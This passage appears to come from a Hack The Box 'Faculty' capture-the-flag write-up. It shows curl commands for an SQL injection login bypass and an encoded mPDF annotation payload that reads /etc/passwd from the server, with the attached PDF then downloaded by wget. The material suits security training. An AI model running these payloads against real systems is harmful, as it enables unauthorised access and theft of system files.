 Let's try it. We need to URL encode and then base64 encode, just like we did in reverse above:

```sh
┌──(root㉿kali)-[~/htb/faculty]
└─# python3 -c "import urllib.parse; print(urllib.parse.quote('<annotation file=\"/etc/passwd\" content=\"/etc/passwd\" icon=\"Graph\" title=\"Attached File: /etc/passwd\" pos-x=\"195\" />'))" | base64
JTNDYW5ub3RhdGlvbiUyMGZpbGUlM0QlMjIvZXRjL3Bhc3N3ZCUyMiUyMGNvbnRlbnQlM0QlMjIvZXRjL3Bhc3N3ZCUyMiUyMGljb24lM0QlMjJHcmFwaCUyMiUyMHRpdGxlJTNEJTIyQXR0YWNoZWQlMjBGaWxlJTNBJTIwL2V0Yy9wYXNzd2QlMjIlMjBwb3MteCUzRCUyMjE5NSUyMiUyMC8lM0UK
```

Here I've used Python to URL encode the example from above, then it gets base64 encoded. Now we need to log in to the Faculty site using our SQLi bypass:

```sh
┌──(root㉿kali)-[~/htb/faculty]
└─# curl -i -s -k -X POST -b 'PHPSESSID=8fpk0ldu1vns710k2eafmsf3s6' --data-binary $'username=pencer\'+or+1%3D1%23&password=' 'http://faculty.htb/admin/ajax.php?action=login'
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 20 Jul 2022 15:59:58 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache

1
```

We have a logged in session so we can send our base64 encoded payload from above:

```sh
┌──(root㉿kali)-[~]
└─# curl -i -s -k -X POST -b 'PHPSESSID=8fpk0ldu1vns710k2eafmsf3s6' --data-binary 'pdf=JTNDYW5ub3RhdGlvbiUyMGZpbGUlM0QlMjIvZXRjL3Bhc3N3ZCUyMiUyMGNvbnRlbnQlM0QlMjIvZXRjL3Bhc3N3ZCUyMiUyMGljb24lM0QlMjJHcmFwaCUyMiUyMHRpdGxlJTNEJTIyQXR0YWNoZWQlMjBGaWxlJTNBJTIwL2V0Yy9wYXNzd2QlMjIlMjBwb3MteCUzRCUyMjE5NSUyMiUyMC8lM0UK' 'http://faculty.htb/admin/download.php' -o -
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 20 Jul 2022 16:03:08 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive

OK3RloLOTaYzJH4fv2SkD8pxWy.pdf
```

We have the pdf filename so let's grab it before it gets removed:

```sh
┌──(root㉿kali)-[~]
└─# wget http://faculty.htb/mpdf/tmp/OK3RloLOTaYzJH4fv2SkD8pxWy.pdf
--2022-07-20 17:04:20--  http://faculty.htb/mpdf/tmp/OK3RloLOTaYzJH4fv2SkD8pxWy.pdf
Resolving faculty.htb (faculty.htb)... 10.10.11.169
Connecting to faculty.htb (faculty.htb)|10.10.11.169|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2576 (2.5K) [application/pdf]
Saving to: ‘OK3RloLOTaYzJH4fv2SkD8pxWy.pdf’
OK3RloLOTaYzJH4fv2SkD8pxWy.pdf    100%[==============>]   2.52K  --.-KB/s    in 0s      
2022-07-20 17:04:20 (380 MB/s) - ‘OK3RloLOTaYzJH4fv2SkD8pxWy.pdf’ saved [2576/2576]
```
